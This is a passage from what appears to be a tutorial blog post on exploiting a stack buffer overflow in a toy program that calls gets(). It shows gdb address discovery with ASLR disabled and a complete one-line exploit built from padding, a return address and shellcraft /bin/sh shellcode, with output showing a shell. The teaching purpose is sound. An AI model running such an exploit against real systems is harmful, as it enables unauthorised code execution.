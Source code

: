 later will use the ``--format raw`` to obtain the shellcode as raw bytes.

What is missing is the knowledge of the address where the shellcode will be at runtime, but this
can be calculated knowing the address of ``name``. This address can be obtained
attaching ``gdb`` to our process when it's waiting: launch it from one terminal

```
$ setarch i386 --addr-no-randomize simplest_excalation
What's your name?
```

and use ``gdb``

```
$ gdb -p `pidof simplest_excalation`
 ...
[#0] Id 1, Name: "simplest_excala", stopped, reason: STOPPED
───────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7fd4059 → Name: __kernel_vsyscall()
[#1] 0xf7e73497 → Name: read()
[#2] 0xf7e003a8 → Name: _IO_file_underflow()
[#3] 0xf7e014bb → Name: _IO_default_uflow()
[#4] 0xf7df46e9 → Name: gets()
[#5] 0x80491b4 → Name: greetings()
[#6] 0x8049205 → Name: main(argc=0x1, argv=0xffffcc64, envp=0xffffcc6c)
────────────────────────────────────────────────────────────────────────────────────────
0xf7fd4059 in __kernel_vsyscall ()
gef➤  frame 5
#5  0x080491b4 in greetings () at public/code/simplest_excalation.c:11
11          gets(name);
gef➤  x/a name
0xffffcb80:     0xf7f63d80
```

The ``setarch`` command set the memory organization to be fixed and not randomized, in order
to follow our computer model; otherwise the addresses of objects in the stack change
for every execution of the process. This means that we are working in a simplified setup but
don't worry, in future posts we would like to build a more complete understanding of how
bypass real protections.

Now all the pieces are in place, we can build the complete exploit from the command line

```
$ (python -c 'import sys;sys.stdout.write("A"*44 + "\xb0\xcb\xff\xff")'; shellcraft i386.linux.sh --format r ; echo ; cat) | \
    setarch i386 --addr-no-randomize  simplest_excalation
What's your name? hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                                                                                         X̀
id
uid=1000(gipi) gid=1000(gipi) groups=1000(gipi)
```

We have a shell! So our process is completed, but I want to give you a trick: how you can see the shell is not
fully functional (for example the ``TAB`` autocompletion doesn't work). To have a fully functional shell you can
use the following command line jutsu: first of all, I associate a ``pty`` with the terminal
